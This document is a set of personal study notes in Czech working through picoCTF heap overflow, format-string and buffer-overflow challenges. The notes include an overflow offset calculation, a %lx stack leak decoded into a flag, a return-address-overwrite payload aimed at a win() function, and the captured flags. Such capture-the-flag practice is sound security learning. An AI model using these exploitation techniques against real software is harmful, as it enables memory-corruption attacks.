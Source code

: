 ## Heap 0
po spuštění
![[Pasted image 20241031165519.png]]
source code (co nás zajíma)
![[Pasted image 20241031165549.png]]
pravděpodobně se bude jednat o overflow (hráním si se sizem)
![[Pasted image 20241031165630.png]]
strcmp => rovnocenné = 0
jiný = 1
safe var je to na adrese 0x6...d0, kde je zapsáno "bico"
![[Pasted image 20241031165811.png]]
tady máme co se nám na allocovalo (máme z dřívějška 5)
![[Pasted image 20241031165901.png]]
a budeme asi muset pře bufferovat input_data
(také můžeme porovnat hodnoty adres ...b0 a ....d0 (208-176) což je 32, takže stačí napsat 33+ znaků)
vyzkoušíme
![[Pasted image 20241031170010.png]]
a máme flagu.

## Format string 0
![[Pasted image 20241031171303.png]]
tento krát v kódu je strcmp s \==, takže vyzkoušíme jak se to bude chovat bez bufferu :/

![[Pasted image 20241031171433.png]]
pravděpodobně %s nám rovnou udělalo overflow za nás?

první `Gr%114d_Cheese` vsune do kódu `%114d` (int 114 bitů? dlouhý)

druhý `Cla%sic_Che%s%steak` vsune %s, což zapříčiní chybu a vyvolá se ![[Pasted image 20241122092806.png]] 

pochopení format stringu
`printf ()`
` %[flags][width][.precision][size]type`
### specifiers (types)

	**c	Character	When used with printf functions, specifies a single-byte character; when used with wprintf functions, specifies a wide character.
	**C	Character	When used with printf functions, specifies a wide character; when used with wprintf functions, specifies a single-byte character.
	**d	Integer	Signed decimal integer.
	**i	Integer	Signed decimal integer.
	**o	Integer	Unsigned octal integer.
	**u	Integer	Unsigned decimal integer.
	**x	Integer	Unsigned hexadecimal integer; uses "abcdef".
	**X	Integer	Unsigned hexadecimal integer; uses "ABCDEF".
	**e	Floating-point	Signed value that has the form [-]d.dddde[+|-]dd[d], where d is one decimal digit, dddd is one or more decimal digits depending on the specified precision, or six by default, and dd[d] is two or three decimal digits depending on the output format and size of the exponent.
	**E	Floating-point	Identical to the e format except that E rather than e introduces the exponent.
	**f	Floating-point	Signed value that has the form [-]dddd.dddd, where dddd is one or more decimal digits. The number of digits before the decimal point depends on the magnitude of the number, and the number of digits after the decimal point depends on the requested precision, or six by default.
	**F	Floating-point	Identical to the f format except that infinity and NaN output is capitalized.
	**g	Floating-point	Signed values are displayed in f or e format, whichever is more compact for the given value and precision. The e format is used only when the exponent of the value is less than -4 or greater than or equal to the precision argument. Trailing zeros are truncated, and the decimal point appears only if one or more digits follow it.
	**G	Floating-point	Identical to the g format, except that E, rather than e, introduces the exponent (where appropriate).
	**a	Floating-point	Signed hexadecimal double-precision floating-point value that has the form [-]0xh.hhhhp[+|-]dd, where h.hhhh are the hex digits (using lower case letters) of the mantissa, and dd are one or more digits for the exponent. The precision specifies the number of digits after the point.
	**A	Floating-point	Signed hexadecimal double-precision floating-point value that has the form [-]0Xh.hhhhP[+|-]dd, where h.hhhh are the hex digits (using capital letters) of the mantissa, and dd are one or more digits for the exponent. The precision specifies the number of digits after the point.
	**n	Pointer to integer	Number of characters that are successfully written so far to the stream or buffer. This value is stored in the integer whose address is given as the argument. The size of the integer pointed at can be controlled by an argument size specification prefix. The n specifier is disabled by default; for information see the important security note.
	**p	Pointer type	Display the argument as an address in hexadecimal digits.
	**s	String	When used with printf functions, specifies a single-byte or multi-byte character string; when used with wprintf functions, specifies a wide-character string. Characters are displayed up to the first null character or until the precision value is reached.
	**S	String	When used with printf functions, specifies a wide-character string; when used with wprintf functions, specifies a single-byte or multi-byte character string. Characters are displayed up to the first null character or until the precision value is reached.

![[Pasted image 20241122091247.png]]
## Heap 1
z heap 0 změněno jen toto
![[Pasted image 20241031182143.png]]
musíme tedy přebufferovat na pico

z minula se dá vypočítat že bufferovat se začalo po 32 znacích
takže postup je jednoduchý
![[Pasted image 20241031182315.png]]

## Heap 2
hlavní věc - pointer
![[Pasted image 20241031184910.png]]
![[Pasted image 20241108201144.png]]
![[Pasted image 20241108201206.png]]

\+ hint  ![[Pasted image 20241108200527.png]]
musíme nějak odkázat na funkci win()

pravděpodobně přes adresu funkce win

## Format String 1
![[Pasted image 20241122092911.png]]

https://lettieri.iet.unipi.it/hacking/format-strings.pdf

The simplest way to exploit a format string vulnerability is to leak information from the stack of the process under attack. **On 32b systems, a sequence of %x specifiers will cause printf() to print successive lines from the stack. On 64b systems, the first 5 %lx will print the contents of the (==registers==) rsi, rdx, rcx, r8, and r9, and any additional %lx will start printing successive stack lines. By studying the binary, or simply by observing the output, the attacker may be able to determine which of these lines contains the stack canary. On 32b systems the canary can be read with %x, but on 64b you need %lx, because %x will only read 4 bytes in both systems.** The only real difficulty for the attacker comes from space limitations in the controlled buffer, since the argument pointer is only moved forward by a format specifier. Any format specifier will move the argument pointer by at least one stack line (which is 4 bytes in 32b systems and 8 bytes in 64b systems), since arguments are always aligned to stack lines. Assume that the buffer size is s: the attacker can only move the argument pointer by ⌊s/2⌋ lines, which may not be enough to reach the canary’s position.

![[Pasted image 20241122100024.png]]
402118,0,7daeeaee6a00,0,1c22880,a347834,7ffdf3f817f0,7daeeacd7e60,7daeeaefc4d0,1,7ffdf3f818c0,0,0,7b4654436f636970,355f31346d316e34,3478345f33317937,35625f673431665f,7d663839623764,7,7daeeaefe8d8,2300000007,206e693374307250,a336c797453,9,7daeeaf0fde9,7daeeace0098,7daeeaefc4d0,0,7ffdf3f818d0,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25,2c786c252c786c25

from hex
![[Pasted image 20241122100324.png]]

ale obráceně protože little endian

rozkouzkujeme podle 8 kousků
{FTCocip
5_14m1n4
4x4_31y7
5b_g41f_
}f89b7d

a obrátíme

picoCTF{
4n1m41_5
7y13_4x4
\_f14g_b5
d7b98f}


`picoCTF{4n1m41_57y13_4x4_f14g_b5d7b98f}`

## Format String 2
![[Pasted image 20241122101052.png]]

## Buffer overflow 0
![[Pasted image 20241129084824.png]]
Zeptá se nás na imput: 
znova musíme schodit program -> sigsegv_handler
![[Pasted image 20241129091232.png]]
zadaný znak se copyne -> buf2 je setlý na 16 znaků 
musíme tedy napsat více jak 16 znaků
![[Pasted image 20241129091607.png]]
_**Význam registrů v CPU:**_

_These registers are 32 bits each, like a long int in c++, or like a LONG in basic:_

- _eax - accumulator. Very general purpose. Used for math, data, and function return values._
- _ebx - base address (within ds)._
- _ecx - counter. Used for loops and repeats._
- _edx - data. Very general purpose. Used for math and data._
- _esi - source index (within ds). Used for sequential memory access._
- _edi - destination index (within es). Used for sequential memory access._
- _ebp - base pointer (within ss). Used for stack frames within functions._
- _esp - stack pointer (within ss). Always points to the current bottom of the stack._
- _eip - instruction pointer. Always points to the next instruction to execute after the current one._
- _eflags - status and condition flags. Indicates whether the last math operation generated a carry/overflow, resulted in a zero, etc._
## Buffer overflow 1
![[Pasted image 20241129093151.png]]

pokud zadáme číslo větší než ... tak se nám vypíše jeho adressa ve vzorci hex toho stringu/intu
![[Pasted image 20241129093518.png]]


asi musíme setnout adressu na adressu fce win()
![[Pasted image 20241129094917.png]]
0x080491f6

musíme najít jak velká padding/offset má být
https://zerosum0x0.blogspot.com/2016/

potřebujeme zjistit adresu eip registeru (kdy začíná, protože to je return adresa)
==něco v gdb co nám vypíše registery==
to nám dá že začína na 4Ab5
![[Pasted image 20241129100253.png]]
44 znaků a přidáme 0x080491f6 ale v little endianu

55555555555555555555555555555555\xf6\x91\x04\x08

git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

do gdb s petou
run < <(echo -ne "555555555555555555555555555555ab444444444444\xf6\x91\x04\x08")
![[Pasted image 20241129100821.png]]

(echo -ne 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab\xf6\x91\x04\x08\n'; cat -)

![[Pasted image 20241129101423.png]]
picoCTF{addr3ss3s_ar3_3asy_b15b081e}